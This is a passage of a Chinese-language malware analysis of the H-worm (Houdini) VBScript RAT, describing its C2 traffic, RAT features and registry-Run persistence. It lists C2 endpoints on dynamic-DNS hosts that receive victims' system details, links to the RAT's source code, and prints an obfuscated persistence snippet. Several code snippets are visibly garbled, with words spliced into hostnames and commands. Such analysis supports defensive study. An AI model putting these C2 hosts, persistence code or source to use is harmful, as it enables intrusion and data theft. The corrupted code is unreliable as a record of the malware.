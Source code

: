   
3.2. C2通信  
  
从多个远程服务器下载到本地计算机的指定文件夹中（%appdata%)&\microsoft office）  

```
a.通过HTTP POST向C2发送is-ready指令，并向远程服务器发送计算机的敏感信息，例如计算机名称、IP 地址、操作系统版本号等等,相关C2为：
  maroco.linkpc.net:862/is-rinoy
  maroco.myq-see.com:862/is-rinoy
  maroco.redirectme.net:862/is-rinoy
b.解析并执行后台指令
c.sleep一段时间
```

  
从多个远程服务器下载到本地计算机的指定文件夹中（%appdata%)&\microsoft office）  

```
microsoft word.wsfray(maroco.myq-see.com:862,mmicrosoft word.wsfoco.linkpc.net:862
mmicrosoft word.wsfoco.redirectme.net:862)
wscript.createobject(wx).expandenvironmentstrings(%appdata%)&\microsoft office
```

##   
## 3.3. RAT功能分析  
  
H-worm的RAT主要是在njRAT的基础之上修改过来的，相关的功能如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVTGnyd3CJZDcl9pc8qg5UTKwIOT6keuAzaPKDNCia3KmsXIdEOV0G1tkDqnXvwZyorvicAh9Lticic8uA/640?wx_fmt=png&from=appmsg "")  
  
njRAT的功能如下，可以看到其整体的界面还是非常像的：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVTGnyd3CJZDcl9pc8qg5UTKkvOiavsCg88L8cDwUib4LWaKTScicXLkSrbayf2sWia3OnuxtI6licAQtbg/640?wx_fmt=png&from=appmsg "")  
  
H-worm本身具有RAT功能，其会在后台接收对方的命令，可执行的指令如下所示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVTGnyd3CJZDcl9pc8qg5UTKSXqia0rV69FPPREFxxvV3G03FVd4MEpYGCa1uKjdd9rGDwCiaKqiaPq0A/640?wx_fmt=png&from=appmsg "")  
  
https://github.com/AhmetHan/h-worm_houdini/blob/master/h-worm_houdini_vbs_rat_source_code  
  
  
  
3.4. 持久化  

```
az.regwscript.exeite chr(72)&chr(75)
&chr(69)&chr(89)&chr(95)&chr(67)&chr(85)&chr(82)
&chr(82)&chr(69)&chr(78)&chr(84)&chr(95)&chr(85)
&chr(83)&chr(69)&chr(82)&chr(92)&chr(115)&chr(111)
&chr(102)&chr(116)&chr(119)&chr(97)&chr(114)&chr(101)
&chr(92)&chr(109)&chr(105)&chr(99)&chr(114)&chr(111)
&chr(115)&chr(111)&chr(102)&chr(116)&chr(92)&chr(119)
&chr(105)&chr(110)&chr(100)&chr(111)&chr(119)&chr(115)
&chr(92)&chr(99)&chr(117)&chr(114)&chr(114)&chr(101)
&chr(110)&chr(116)&chr(118)&chr(101)&chr(114)&chr(115)
&chr(105)&chr(111)&chr(110)&chr(92)&chr(114)&chr(117)
&chr(110)&chr(92)&split(microsoft word.wsf,chr(46))(0),
wscript.exe&chr((17+17))&ax&microsoft word.wsf&chr((17+17)),
chr(82)&chr(69)&chr(71)&chr(95)&chr(83)&chr(90)
```
